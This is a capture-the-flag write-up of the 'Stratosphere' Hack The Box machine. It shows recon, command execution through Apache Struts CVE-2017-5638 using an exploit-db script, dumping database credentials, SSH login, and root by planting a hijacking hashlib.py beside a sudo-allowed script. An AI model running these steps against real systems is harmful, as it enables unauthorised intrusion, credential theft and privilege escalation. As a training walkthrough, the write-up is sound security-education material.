


---
search:
  exclude: true
---
# Stratosphere Writeup

## Introduction :

Stratosphere is a Medium Linux box released back in March 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.10/23 ] [~]
      → nmap -sCV -p 22,80,8080 10.10.10.64
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-15 22:52 GMT
      Nmap scan report for 10.10.10.64
      Host is up (0.091s latency).
    
      PORT     STATE SERVICE    VERSION
      22/tcp   open  ssh        OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
      | ssh-hostkey:
      |   2048 5b:16:37:d4:3c:18:04:15:c4:02:01:0d:db:07:ac:2d (RSA)
      |   256 e3:77:7b:2c:23:b0:8d:df:38:35:6c:40:ab:f6:81:50 (ECDSA)
      |_  256 d7:6b:66:9c:19:fc:aa:66:6c:18:7a:cc:b5:87:0e:40 (ED25519)
      80/tcp   open  http
      | fingerprint-strings:
      |   FourOhFourRequest:
      |     HTTP/1.1 404
      |     Content-Type: text/html;charset=utf-8
      |     Content-Language: en
      |     Content-Length: 1114
      |     Date: Sun, 15 Mar 2020 22:53:54 GMT
      |     Connection: close
      |   GetRequest:
      |     HTTP/1.1 200
      |     Accept-Ranges: bytes
      |     ETag: W/"1708-1519762495000"
      |     Last-Modified: Tue, 27 Feb 2018 20:14:55 GMT
      |     Content-Type: text/html
      |     Content-Length: 1708
      |     Date: Sun, 15 Mar 2020 22:53:54 GMT
      |     Connection: close
      |   HTTPOptions:
      |     HTTP/1.1 200
      |     Allow: GET, HEAD, POST, PUT, DELETE, OPTIONS
      |     Content-Length: 0
      |     Date: Sun, 15 Mar 2020 22:53:54 GMT
      |     Connection: close
      |   RTSPRequest, X11Probe:
      |     HTTP/1.1 400
      |     Date: Sun, 15 Mar 2020 22:53:54 GMT
      |_    Connection: close
      | http-methods:
      |_  Potentially risky methods: PUT DELETE
      |_http-title: Stratosphere
      8080/tcp open  http-proxy
      | fingerprint-strings:
      |   FourOhFourRequest:
      |     HTTP/1.1 404
      |     Content-Type: text/html;charset=utf-8
      |     Content-Language: en
      |     Content-Length: 1114
      |     Date: Sun, 15 Mar 2020 22:53:54 GMT
      |     Connection: close
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 22.10 seconds
    
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 and 8080 running http so let's dirsearch both of them :

Suprisingly both the dirsearch scans found the exact same directories : 
    
    
      _|. _ _  _  _  _ _|_    v0.3.9
     (_||| _) (/_(_|| (_| )
    
     Extensions: txt, html, php, xml | HTTP method: get | Threads: 50 | Wordlist size: 220521
    
     Error Log: /home/nihilist/Desktop/Tools/dirsearch/logs/errors-20-03-15_22-57-35.log
    
     Target: http://10.10.10.64/
    
     [22:57:35] Starting:
     [22:57:36] 200 -    2KB - /
     [22:57:58] 302 -    0B  - /manager  ->  /manager/
     [22:58:31] 302 -    0B  - /Monitoring  ->  /Monitoring/
     [22:59:07] 400 -    0B  - /http%3A%2F%2Fwww
     [23:00:58] 400 -    0B  - /http%3A%2F%2Fyoutube
     [23:01:46] 400 -    0B  - /http%3A%2F%2Fblogs
     [23:01:52] 400 -    0B  - /http%3A%2F%2Fblog
     [23:02:30] 400 -    0B  - /%2A%2Ahttp%3A%2F%2Fwww
    

So we investigate /manager: 

Which is a login form, so we move over to /Monitoring 

Here we see that we are redirected to the following link : **http://10.10.10.64:8080/Monitoring/example/Welcome.action** and that we can either sign on or register, however trying to register we see that we get an error: 

With the following URL : 
    
    
      http://10.10.10.64/Monitoring/example/Register.action;jsessionid=AFF9FBE2C10195E4BD717ABD893099E2
    

Moving over to the Sign On page we try to login with a random username and password, and we get the following request: 

we'll leave that aside for now, and head back to the Monitoring homepage, we see that the extension .action is used instead of .do for apache struts actions. Struts is a model-view-controller framework for creating java web applications. Struts has suffered from a couple of vulnerabilities using the technique of object-graph navigation language (OGNL) injection. OGNL is an expression language that allows the setting of an object properties and execution of various methods of Java classes, which can be maliciously used to perform RCE attacks against Apache servers. Most notably [cve2017-5638](https://www.exploit-db/exploits/41570), to which we have a few exploits we can use: 
    
    
      λ nihilist [ 10.10.14.10/23 ] [~]
      → cd /usr/share/exploitdb
    
      λ nihilist [ 10.10.14.10/23 ] [/usr/share/exploitdb]
      → grep -Ri 2017-5638
      exploits/linux/webapps/41570.py:        print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
      exploits/multiple/remote/41614.rb:        ['CVE', '2017-5638'],
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Stratosphere]
      → cp /usr/share/exploitdb/exploits/linux/webapps/41570.py .
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Stratosphere]
      → nano 41570.py
    

In it we can see that it is trying to abuse the Content-Type header by setting it to **%{(#_='multipart/form-data').(payload)** :

we can even check if it is vulnerable to this particular CVE by using nmap's --script flag: 
    
    
      λ nihilist [ 10.10.14.10/23 ] [~]
      → nmap -p8080 --script http-vuln-cve2017-5638 --script-args path=/Monitoring/ 10.10.10.64
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-16 08:44 GMT
      Nmap scan report for 10.10.10.64
      Host is up (0.094s latency).
    
      PORT     STATE SERVICE
      8080/tcp open  http-proxy
      | http-vuln-cve2017-5638:
      |   VULNERABLE:
      |   Apache Struts Remote Code Execution Vulnerability
      |     State: VULNERABLE
      |     IDs:  CVE:CVE-2017-5638
      |       Apache Struts 2.3.5 - Struts 2.3.31 and Apache Struts 2.5 - Struts 2.5.10 are vulnerable to a Remote Code Execution
      |       vulnerability via the Content-Type header.
      |
      |     Disclosure date: 2017-03-07
      |     References:
      |       https://cwiki.apache.org/confluence/display/WW/S2-045
      |       http://blog.talosintelligence.com/2017/03/apache-0-day-exploited.html
      |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638
    

And it looks like it is vulnerable, so let's test it out but be careful that the final / of the URL is important otherwise you won't get any results: 
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Stratosphere]
    → python 41570.py http://10.10.10.64:8080/Monitoring id
    [*] CVE: 2017-5638 - Apache Struts2 S2-045
    [*] cmd: id
    
    
    λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Stratosphere]
    → python 41570.py http://10.10.10.64:8080/Monitoring/ id
    [*] CVE: 2017-5638 - Apache Struts2 S2-045
    [*] cmd: id
    
    uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)
    
    λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Stratosphere]
    → python 41570.py http://10.10.10.64:8080/Monitoring/ "cat /home/richard/user.txt"
    [*] CVE: 2017-5638 - Apache Struts2 S2-045
    [*] cmd: cat /home/richard/user.txt
    
    cat: /home/richard/user.txt: Permission denied
    
    

And we get RCE as tomcat8 ! However trying to print the user richard flag we see that we need to privesc so you could try to get a reverse shell but it may be tedious since we'll find out later on that the box has iptables configured. So first we print out the db_connect file contents to see if we can grab credentials:
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Stratosphere]
    → python 41570.py http://10.10.10.64:8080/Monitoring/ "ls"
    [*] CVE: 2017-5638 - Apache Struts2 S2-045
    [*] cmd: ls
    
    conf
    db_connect
    lib
    logs
    policy
    webapps
    work
    
    λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Stratosphere]
    → python 41570.py http://10.10.10.64:8080/Monitoring/ "cat db_connect"
    [*] CVE: 2017-5638 - Apache Struts2 S2-045
    [*] cmd: cat db_connect
    
    [ssn]
    user=ssn_admin
    pass=AWs64@on*&
    
    [users]
    user=admin
    pass=admin
    
    

You may be tempted to use the ssn_admin:AWs64@on*& creds but as a matter of fact we'll use the default credentials admin:admin to log into mysql and print out other credentials:
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Stratosphere]
      → python 41570.py http://10.10.10.64:8080/Monitoring/ **"** mysql -u admin **-p admin** -e "use users;select * from accounts"**"**
    

This above is incorrect since we have to use a pair of singlequotes and doublequotes instead of 2 pairs of doublequotes, moreso the -p admin syntax is incorrect because you need to spell it this way (-padmin) so now we correct our command :
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Stratosphere]
      → python 41570.py http://10.10.10.64:8080/Monitoring/ **'** mysql -u admin **-padmin** -e "use users;select * from accounts"**'**
      [*] CVE: 2017-5638 - Apache Struts2 S2-045
      [*] cmd: mysql -u admin -padmin -e "use users;select * from accounts"
    
      fullName	password	username
      Richard F. Smith	9tc*rhKuG5TyXvUJOrE^5CK7k	richard
    

And we have credentials ! richard:9tc*rhKuG5TyXvUJOrE^5CK7k so we log into the machine via ssh: 
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Stratosphere]
      → ssh richard@10.10.10.64
      The authenticity of host '10.10.10.64 (10.10.10.64)' can't be established.
      ECDSA key fingerprint is SHA256:tQZo8j1TeVASPxWyDgqJf8PaDZJV/+LeeBZnjueAW/E.
      Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
      Warning: Permanently added '10.10.10.64' (ECDSA) to the list of known hosts.
      richard@10.10.10.64's password:
      Linux stratosphere 4.9.0-6-amd64 #1 SMP Debian 4.9.82-1+deb9u2 (2018-02-21) x86_64
    
      The programs included with the Debian GNU/Linux system are free software;
      the exact distribution terms for each program are described in the
      individual files in /usr/share/doc/*/copyright.
    
      Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
      permitted by applicable law.
      Last login: Tue Feb 27 16:26:33 2018 from 10.10.14.2
      richard@stratosphere:~$ cat user.txt
      e6XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! We have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Now our first reflex to enumerate a box is by typing sudo -l to see if we can execute anything with root privileges as the current user:
    
    
      richard@stratosphere:~$ sudo -l
    Matching Defaults entries for richard on stratosphere:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    
    User richard may run the following commands on stratosphere:
        (ALL) NOPASSWD: /usr/bin/python* /home/richard/test.py
    
    
    
    richard@stratosphere:~$ cat /home/richard/test.py
    #!/usr/bin/python3
    import hashlib
    
    
    def question():
        q1 = input("Solve: 5af003e100c80923ec04d65933d382cb\n")
        md5 = hashlib.md5()
        md5.update(q1.encode())
        if not md5.hexdigest() == "5af003e100c80923ec04d65933d382cb":
            print("Sorry, that's not right")
            return
        print("You got it!")
        q2 = input("Now what's this one? d24f6fb449855ff42344feff18ee2819033529ff\n")
        sha1 = hashlib.sha1()
        sha1.update(q2.encode())
        if not sha1.hexdigest() == 'd24f6fb449855ff42344feff18ee2819033529ff':
            print("Nope, that one didn't work...")
            return
        print("WOW, you're really good at this!")
        q3 = input("How about this? 91ae5fc9ecbca9d346225063f23d2bd9\n")
        md4 = hashlib.new('md4')
        md4.update(q3.encode())
        if not md4.hexdigest() == '91ae5fc9ecbca9d346225063f23d2bd9':
            print("Yeah, I don't think that's right.")
            return
        print("OK, OK! I get it. You know how to crack hashes...")
        q4 = input("Last one, I promise: 9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943\n")
        blake = hashlib.new('BLAKE2b512')
        blake.update(q4.encode())
        if not blake.hexdigest() == '9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943':
            print("You were so close! urg... sorry rules are rules.")
            return
    
        import os
        os.system('/root/success.py')
        return
    
    question()
    

Here we can see a bunch of crackable hashes (which are actually rabbitholes lol), the real vulnerability here is into the libraries that this python script calls : hashlib.py 
    
    
      richard@stratosphere:/usr/lib/python3.5$ cd ~
    richard@stratosphere:~$ cd /usr/lib/python3.5
    richard@stratosphere:/usr/lib/python3.5$ ls -lash | grep hashlib
    8.0K -rw-r--r--  1 root root 7.8K Jan 19  2017 hashlib.py
    
    

Obviously we cannot write into this hashlib.py file since we do not have enough permissions to do so, therefore we will create our own hashlib.py in the SAME FOLDER as our test.py and it will take priority over the hashlib we found above. With our own hashlib.py we are able to achieve a privilege escalation via python-library hijacking as demonstrated below : 
    
    
    richard@stratosphere:~$ pwd
    /home/richard
    
    richard@stratosphere:~$ ls
    Desktop  test.py  user.txt
    
    richard@stratosphere:~$ echo 'import os;os.system("/bin/bash")' > hashlib.py
    richard@stratosphere:~$ sudo /usr/bin/python /home/richard/test.py
    root@stratosphere:/home/richard# id
    uid=0(root) gid=0(root) groups=0(root)
    
    root@stratosphere:/home/richard# cat /root/root.txt
    d4XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

